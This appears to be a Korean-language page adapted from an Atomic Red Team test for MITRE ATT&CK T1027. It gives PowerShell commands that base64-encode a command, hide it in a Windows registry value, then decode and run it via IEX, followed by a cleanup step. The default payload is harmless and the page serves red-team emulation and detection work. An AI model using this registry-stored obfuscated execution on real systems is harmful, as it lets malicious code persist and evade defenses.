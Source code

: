 #T1027 Obfuscated Files or Information

## Descritption
공격자는 시스템 또는 전송 중인 콘텐츠를 암호화, 인코딩 또는 난독화하여 실행 파일이나 파일을 검색하거나 분석하기 어렵게 만들 수 있습니다. 이는 다양한 플랫폼과 네트워크에서 방어를 회피하는 데 사용할 수 있는 일반적인 동작입니다.

## Attack Payload
#### Windows 레지스트리에서 base64로 인코딩된 PowerShell 실행
##### Inputs:

|Name|Description|Type|Default Value|
|---|---|---|---|
|registry_key_storage	|Windows Registry Key to store code|String|HKCU:Software\Microsoft\Windows\CurrentVersion|
|powershell_command	|PowerShell command to encode	|String	|Write-Host "Hey, Atomic!"|
|registry_entry_storage	|Windows Registry entry to store code under key	|String	|Debug|

##### Attack Commands:
``` powershell
$OriginalCommand = '#{powershell_command}'
$Bytes = [System.Text.Encoding]::Unicode.GetBytes($OriginalCommand)
$EncodedCommand =[Convert]::ToBase64String($Bytes)
$EncodedCommand

Set-ItemProperty -Force -Path #{registry_key_storage} -Name #{registry_entry_storage} -Value $EncodedCommand
powershell.exe -Command "IEX ([Text.Encoding]::UNICODE.GetString([Convert]::FromBase64String((gp #{registry_key_storage} #{registry_entry_storage}).#{registry_entry_storage})))"
```
##### Cleanup Commands:
```powershell
Remove-ItemProperty -Force -ErrorAction Ignore -Path #{registry_key_storage} -Name #{registry_entry_storage}
```


## Detection
Windows 레지스트리에 base64로 인코딩된 PowerShell 코드를 저장하고 실행을 위해 난독화 해제합니다. 이것은 수많은 공격자와 악성 도구에 의해 사용됩니다. 성공적으로 실행되면 powershell은 인코딩된 명령을 실행하고 레지스트리에서 읽기/쓰기를 실행합니다.

